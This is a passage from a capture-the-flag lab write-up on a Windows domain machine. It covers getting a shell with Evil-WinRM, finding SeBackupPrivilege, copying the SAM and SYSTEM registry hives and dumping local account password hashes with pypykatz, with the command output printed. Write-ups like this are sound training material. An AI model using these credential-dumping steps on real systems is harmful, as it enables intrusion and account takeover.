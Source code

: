 ![](2025-05-31-razorblack-10.png)

* thus we can now get a shell using psexec.
* but no luck, thus also tried with other methods too including RDP but all failed.
* lastly we were able to get shell using Evil-WinRm.

![](2025-05-31-razorblack-11.png)

* from here in current user home directory we found a xml file and so fetch it.

![](2025-05-31-razorblack-12.png)

* enumerate for basic privileges.

```bash
*Evil-WinRM* PS C:\Users\xyan1d3> whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                    State
============================= ============================== =======
SeMachineAccountPrivilege     Add workstations to domain     Enabled
SeBackupPrivilege             Back up files and directories  Enabled
SeRestorePrivilege            Restore files and directories  Enabled
SeShutdownPrivilege           Shut down the system           Enabled
SeChangeNotifyPrivilege       Bypass traverse checking       Enabled
SeIncreaseWorkingSetPrivilege Increase a process working set Enabled
```

* [https://www.hackingarticles.in/windows-privilege-escalation-sebackupprivilege/](https://www.hackingarticles.in/windows-privilege-escalation-sebackupprivilege/)
* thus made a copy of SAM and SYSTEM from registry.

![](2025-05-31-razorblack-13.png)

* next transfered it to our machine.

![](2025-05-31-razorblack-14.png)

* next on our machine we dump the hashes using `pypykatz`.

```bash
┌──(kali㉿kali)-[~/Desktop/RazorBlack]
└─$ pypykatz registry --sam sam system
WARNING:pypykatz:SECURITY hive path not supplied! Parsing SECURITY will not work
WARNING:pypykatz:SOFTWARE hive path not supplied! Parsing SOFTWARE will not work
============== SYSTEM hive secrets ==============
CurrentControlSet: ControlSet001
Boot Key: f1582a79dd00631b701d3d15e75e59f6
============== SAM hive secrets ==============
HBoot Key: eaa05099b2f12f633fca797270e3e4fa10101010101010101010101010101010
Administrator:500:aad3b435b51404eeaad3b435b51404ee:9689931bed40ca5a2ce1218210177f0c:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
WDAGUtilityAccount:504:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
```
